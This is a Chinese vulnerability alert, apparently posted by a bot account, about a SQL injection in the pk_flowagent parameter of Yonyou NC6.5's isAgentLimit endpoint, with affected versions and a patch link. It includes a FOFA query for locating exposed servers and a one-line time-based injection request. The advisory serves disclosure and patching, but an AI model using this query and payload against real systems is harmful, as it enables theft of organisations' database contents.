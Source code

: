 #  用友NC6.5版本oacoSchedulerEvents接口存在sql注入漏洞   
原创 漏洞预警机器人  安全光圈   2024-06-12 17:38  
  
# 用友NC6.5版本oacoSchedulerEvents接口存在sql注入漏洞  
  
免责声明：本文内容为机器人搜集最新漏洞及POC分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！  
## 漏洞名称  
  
用友NC6.5版本oacoSchedulerEvents接口sql注入漏洞  
## 漏洞描述  
  
用友NC是由用友公司开发的一套面向大型企业和集团型企业的管理软件产品系列。这一系列产品基于全球最新的互联网技术、云计算技术和移动应用技术，旨在帮助企业创新管理模式、引领商业变革。用友NC存在SQL注入漏洞，该漏洞源于/portal/pt/oacoSchedulerEvents/isAgentLimit接口中的pk_flowagent参数存在sql注入漏洞，攻击者可通过该漏洞获取数据库敏感数据。  
  
影响范围：用友网络科技股份有限公司-NC6.5受影响。NCM_NC6.5_000_109902_20240607_GP_741839402不受影响。  
## FOFA语句  
```
app="用友-UFIDA-NC"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/g1X9cMsc6D1qtmjicu41MBx5afymlZMMhoOlmQCibPic8P2rJ61MMVia5UKRO7q1ffQg6hdQph67CprrVNHI9p1pog/640?wx_fmt=png&from=appmsg "null")  
## POC  
```
GET /portal/pt/oacoSchedulerEvents/isAgentLimit?pageId=login&pk_flowagent=1'waitfor+delay+'0:0:5
```  
## 补丁  
  
用友安全中心已发布漏洞公告，请尽快前往下载更新补丁：  
  
https://security.yonyou.com/#/noticeInfo?id=560  
  
  
